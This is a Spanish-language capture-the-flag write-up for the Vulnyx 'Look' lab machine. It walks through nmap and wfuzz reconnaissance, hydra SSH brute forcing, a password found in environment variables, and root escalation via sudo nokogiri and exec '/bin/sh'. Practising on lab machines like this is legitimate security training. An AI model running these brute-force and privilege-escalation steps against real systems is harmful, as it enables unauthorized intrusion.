 # Vulnyx-Look

## Reconocimiento

```bash
# ARP scan
arp-scan -I eth0 --localnet
•(IP-victima)  08:00:27:ad:69:c8       PCS Systemtechnik GmbH

# Nmap scan
nmap -p- --min-rate 2000 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
•22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
•80/tcp open  http    Apache httpd 2.4.56 ((Debian))
```

## Fuzzing

```bash
# WFuzz
wfuzz --hc=404 -u http://(IP-victima)/FUZZ.php -w /usr/share/dirb/wordlists/big.txt
•/look.php
•/info.php
```

Dentro de "/info.php" encontramos la versión de PHP (7.4.33) y en la tabla "apache2handler" el usuario:
•user/grup	axel(1000)/1000 

Dentro de "/look.php" encontramos un texto con un horario "23:15:51 up 32 min,  0 users,  load average: 0.14, 0.20, 0.10"

## Obtención de Credenciales

```bash
# Fuerza bruta al servidor SSH
hydra -l axel -P /usr/share/wordlists/rockyou.txt -t 5 ssh://(IP-victima)
•22][ssh] host: (IP-victima)   login: axel   password: b****m

# Acceso al servidor SSH
ssh axel@(IP-victima)
pass: b****m
```

## Escalada de Privilegios

```bash
# Leer /etc/passwd y encontrar usuario "dylan", con el binario "env" encontramos la pass para dicho usuario.
su dylan
pass: dylanPASS=b*********N

# Verificar privilegios sudo
sudo -l
• (root) NOPASSWD: /usr/bin/nokogiri

# Ejecutar nokogiri como root e inyectandole un formato .html nos da una consola para ejecutar comandos.
sudo /usr/bin/nokogiri index.html

# Escalar a root con GTFObins
>exec "/bin/sh"
>whoami
•root
```

¡Ya somos root! :D
